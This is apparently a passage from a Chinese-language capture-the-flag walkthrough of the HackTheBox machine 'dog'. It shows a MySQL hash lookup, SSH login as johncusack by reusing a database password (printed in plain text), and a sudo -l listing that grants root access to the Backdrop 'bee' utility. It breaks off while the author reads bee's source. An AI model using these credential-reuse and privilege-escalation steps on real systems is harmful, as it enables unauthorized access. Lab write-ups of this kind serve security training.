 ## Own johncusack

进入**mysql**

![](./images/image-151.png)

发现存在有**jobert**的密码**hash**，但是并不能爆破。

![](./images/image-152.png)

尝试使用数据库的密码来登录**johncusack**成功

```
[root@kali] /home/kali  
❯ ssh johncusack@dog.htb     #BackDropJ2024DS2024
```

## Root

查看特殊命令

```
-bash-5.0$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

查看具体内容

```
<?php
/**
 * @file
 * A command line utility for Backdrop CMS.
 */

// Exit gracefully with a meaningful message if installed within a web
// accessible location and accessed in the browser.
if (!bee_is_cli()) {
  echo bee_browser_load_html();
  die();
}

```